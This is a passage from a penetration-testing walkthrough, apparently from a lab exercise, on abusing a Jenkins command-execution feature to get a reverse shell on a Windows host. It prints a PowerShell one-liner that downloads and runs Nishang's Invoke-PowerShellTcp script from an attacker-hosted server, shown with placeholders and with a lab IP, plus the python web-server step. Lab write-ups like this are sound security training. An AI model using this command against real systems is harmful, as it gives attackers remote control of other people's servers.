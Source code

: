 We'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous 
development pipelines that allow developers to automatically deploy their code once they made change to it). After which, we'll use an interesting privilege escalation 
method to get full system access. 

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of 
scripts for initial access, enumeration and privilege escalation. In this case, we'll be using 
the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)


Find a feature of the tool(Jenkins) that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the 
reverse shell on your machine and then run it: 
```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```
E.g. in our case it is:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.117.113:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.117.113 -Port 4444
```
![image](https://github.com/vivekprm/hackers-manual/assets/2403660/394a4a8f-7da9-4be6-bc02-5b35539d92d0)

You first need to download the [Powershell script](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1), and make it available 
for the server to download. You can do this by creating a http server with python: 
```sh
python3 -m http.server
```

# Switching Shells
